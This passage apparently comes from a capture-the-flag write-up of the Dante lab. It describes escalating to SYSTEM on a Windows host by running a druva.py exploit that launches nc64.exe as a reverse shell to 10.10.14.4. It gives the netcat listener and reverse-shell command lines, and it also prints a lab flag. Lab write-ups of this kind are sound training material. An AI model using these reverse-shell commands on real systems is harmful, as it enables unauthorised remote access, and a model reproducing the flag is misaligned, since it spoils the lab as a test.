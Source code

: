 Now, for the 3rd problem.

<figure><img src="../../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>

Although the command was correct, attempting to read the flag directly or outputting the flag to a file didn't work for some reason, it could be because of UAC idk.

So, I decided to just opt for a reverse shell using the earlier `nc.exe` we uploaded. Start a listener first on a different port

```
nc -lvnp 1235
```

From the `Python27` folder run the command:

```
C:\Python27\python.exe druva.py "Windows\system32\cmd.exe /c C:\xampp\htdocs\discuss\ups\nc64.exe 10.10.14.4 1235 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>

And boom, we have a SYSTEM session on the target. Now, we can read the flag from `Administrator`'s Desktop

```
type C:\Users\Administrator\Desktop\flag.txt
```

11th flag: `DANTE{Bad_pr4ct1ces_Thru_strncmp}`

***

## <mark style="color:red;">Feeling fintastic</mark>

### 172.16.1.17 (DANTE-NIX03)

